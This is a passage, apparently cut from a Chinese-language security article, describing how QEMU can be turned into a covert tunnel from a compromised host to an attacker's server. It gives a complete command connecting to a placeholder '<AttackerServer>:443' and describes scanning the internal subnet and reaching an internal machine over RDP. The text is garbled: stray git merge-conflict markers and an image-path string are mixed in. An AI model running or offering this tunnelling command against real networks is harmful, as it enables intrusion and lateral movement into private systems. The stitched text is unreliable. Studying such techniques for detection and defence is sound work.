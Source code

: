 =======
```bash
qemu-system-i386.exe -m 1M -netdev user,id=lan,restrict=off -netdev socket,id=sock,connect=<AttackerServer>:443 -netdev hubport,id=port-lan,hubid=0,netdev=lan -netdev hubport,id=port-sock,hubid=0,netdev=sock -nographic
```

启动后，QEMU 会建立一条从 PivotHost 到 AttackerServer（或更准确地说，到 Kali Linux VM）的网络隧道。Kali Linux 可以扫描 PivotHost 子网连接的其他系统。  
[![](assets/1709874361-25044c3a980ccc80eb6ad7d817af89c9.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240306190923-fcf0545c-dba9-1.png)  
扫描定位到 InternalHost，IP 地址为 192.168.56.109。Nmap 程序显示端口 3389 已打开。我们尝试使用 RDP 连接到 InternalHost。  
[![](assets/1709874361-a5f2956f4ddb4d7853d5651f55f8fafa.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240306191022-2019dec6-dbaa-1.png)  
>>>>>>> 4992f5f682bf7aa8873ceb2495ac1d2a8296850f
因此，我们能够确定这种实现内网穿透的技术确实是有效的。除了上述类型的网络设备之外，QEMU 还支持其他几种网络设备，这些设备也可能被恶意攻击者利用。
